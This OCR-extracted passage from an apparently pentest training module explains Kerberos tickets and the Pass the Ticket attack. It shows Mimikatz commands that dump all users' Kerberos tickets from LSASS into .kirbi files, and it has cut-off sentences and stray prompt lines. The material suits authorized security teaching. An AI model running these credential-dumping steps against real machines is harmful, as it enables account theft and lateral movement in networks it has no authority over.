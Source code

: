 - The `Ticket Granting Ticket` (`TGT`) is the first ticket obtained on a Kerberos system. The TGT permits the client to obtain additional Kerberos tickets or `TGS`.
- The `Ticket Granting Service` (`TGS`) is requested by users who want to use a service. These tickets allow services to verify the user's identity.

When a user requests a `TGT`, they must authenticate to the domain controller by encrypting the current timestamp with their password hash. Once the domain controller validates the user's identity (because the domain knows the user's password hash, meaning it can decrypt the timestamp), it sends the user a TGT for future requests. Once the user has their ticket, they do not have to prove who they are with their password.

If the user wants to connect to an MSSQL database, it will request a `Ticket Granting Service` (`TGS`) to the `Key Distribution Center` (`KDC`), presenting its `Ticket Granting Ticket` (`TGT`). Then it will give the TGS to the MSSQL database server for authentica

## Pass the Ticket (PtT) attack
Let's imagine we are on a pentest, and we manage to phish a user and gain access to the user's computer. We found a way to obtain administrative privileges on this computer and are working with local administrator rights. Let's explore several ways we can manage to get access tickets on this computer and how we can create new tickets.'

## Harvesting Kerberos tickets from Windows

On Windows, tickets are processed and stored by the LSASS (Local Security Authority Subsystem Service) process
As a non-administrative user, you can only get your tickets, but as a local administrator, you can collect everything.

We can harvest all tickets from a system using the `Mimikatz` module `sekurlsa::tickets /export`. The result is a list of files with the extension `.kirbi`, which contain the tickets.

```cmd-session
c:\tools> mimikatz.exe

mimikatz # privilege::debug
mimikatz # sekurlsa::tickets /export
mimikatz # exit
c:\tools> dir *.kirbi
Directory: c:\tools

Mode                LastWriteTime         Length Name
----                -------------         ------ ----

<SNIP>

-a----        7/12/2022   9:44 AM           1445 [0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
-a----        7/12/2022   9:44 AM           1565 [0;3e7]-0-2-40a50000-DC01$@cifs-DC01.inlanefreight.htb.kirbi

```

The tickets that end with `$` correspond to the computer account, which needs a ticket to interact with the Active Directory. User tickets have the user's name, followed by an `@` that separates the service name and the domain, for example: `[randomvalue]-username@service-domain.local.kirbi`.


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>
[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname